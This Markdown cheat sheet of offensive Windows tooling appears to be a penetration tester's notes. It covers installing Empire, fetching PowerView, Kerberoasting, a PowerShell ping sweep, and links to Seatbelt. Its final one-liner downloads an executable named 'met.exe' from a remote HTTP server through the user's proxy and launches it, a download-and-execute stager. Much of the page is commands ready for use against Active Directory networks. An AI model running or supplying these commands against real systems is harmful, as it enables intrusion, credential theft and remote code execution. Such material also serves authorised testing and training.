 
#### Empire

* [github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire)
* [github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)

```
$ git clone https://github.com/BC-SECURITY/Empire
$ sudo ./setup/install.sh
```


#### PowerView

* [www.harmj0y.net/blog/powershell/make-powerview-great-again/](https://www.harmj0y.net/blog/powershell/make-powerview-great-again/)
* [github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf)
* [gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
* [PowerView 2.0](https://github.com/PowerShellEmpire/PowerTools/raw/master/PowerView/powerview.ps1)
* [PowerView 3.0 [dev]](https://github.com/PowerShellMafia/PowerSploit/raw/dev/Recon/PowerView.ps1)

```
$ curl -L https://github.com/PowerShellEmpire/PowerTools/raw/master/PowerView/powerview.ps1 > powerview2.ps1
$ curl -L https://github.com/PowerShellMafia/PowerSploit/raw/dev/Recon/PowerView.ps1 > powerview3.ps1
PowerView3 > Get-DomainComputer -Properties Name | Resolve-IPAddress
PowerView3 > Invoke-Kerberoast -OutputFormat Hashcat | fl
```


#### Seatbelt

* [github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)
* [github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)



### One-liners

PowerShell ping sweep:

```
echo "[*] Scanning in progress...";1..254 |ForEach-Object {Get-WmiObject Win32_PingStatus -Filter "Address='10.10.100.$_' and Timeout=50 and ResolveAddressNames='false' and StatusCode=0" |select ProtocolAddress* |Out-File -Append -FilePath .\live_hosts.txt};echo "[+] Live hosts:"; Get-Content -Path .\live_hosts.txt | ? { $_ -match "10.10.100" }; echo "[*] Done.";del .\live_hosts.txt
```

PowerShell auto detect proxy, download file from remote HTTP server and run it:

```
$proxyAddr=(Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings").ProxyServer;$proxy=New-Object System.Net.WebProxy;$proxy.Address=$proxyAddr;$proxy.useDefaultCredentials=$true;$client=New-Object System.Net.WebClient;$client.Proxy=$proxy;$client.DownloadFile("http://10.10.13.37/met.exe","$env:userprofile\music\met.exe");$exec=New-Object -com shell.application;$exec.shellexecute("$env:userprofile\music\met.exe")
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)